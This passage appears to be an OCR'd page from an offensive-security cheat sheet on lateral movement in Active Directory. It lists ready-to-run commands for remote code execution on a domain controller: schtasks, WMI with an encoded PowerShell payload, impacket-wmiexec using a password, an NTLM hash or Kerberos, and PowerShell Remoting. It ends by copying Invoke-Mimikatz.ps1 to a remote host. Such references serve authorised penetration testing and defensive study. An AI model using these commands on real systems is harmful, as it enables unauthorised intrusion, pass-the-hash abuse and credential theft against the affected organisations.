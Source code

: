 schtasks /RUN /TN "shell" /s dc.targetdomain.com

PowerShell

# Command execution with WMI

_Requires ‘Host’ and ‘RPCSS’ SPNs_

## From Windows

Invoke-WmiMethod win32_process -ComputerName dc.targetdomain.com -name create -argumentlist "powershell.exe -e $encodedCommand"

PowerShell

## From Linux

# with password  
impacket-wmiexec DOMAIN/targetuser:password@172.16.4.101# with hash  
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -hashes :e0e223d63905f5a7796fb1006e7dc594# with Kerberos authentication (make sure your client is setup to use the right ticket, and that you have a TGS with the right SPNs)  
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -no-pass -k

Bash

# Command execution with PowerShell Remoting

_Requires ‘CIFS’ and ‘HTTP’ SPNs. May also need the ‘WSMAN’ or ‘RPCSS’ SPNs (depending on OS version)_

# Create credential to run as another user (not needed after e.g. Overpass-the-Hash)  
# Leave out -Credential $Cred in the below commands to run as the current user instead  
$SecPassword = ConvertTo-SecureString 'VictimUserPassword' -AsPlainText -Force  
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\targetuser', $SecPassword)# Run a command remotely (can be used on multiple machines at once)  
Invoke-Command -Credential $Cred -ComputerName dc.targetdomain.com -ScriptBlock {whoami; hostname}# Launch a session as another user (prompt for password instead, for use with e.g. RDP)  
Enter-PsSession -ComputerName dc.targetdomain.com -Credential DOMAIN/targetuser# Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session prompt  
$sess = New-PsSession -Credential $Cred -ComputerName dc.targetdomain.com  
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1  
Enter-PsSession -Session $sess# Copy files to or from an active PowerShell remoting session  
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess -Destination "C:\Users\public\"
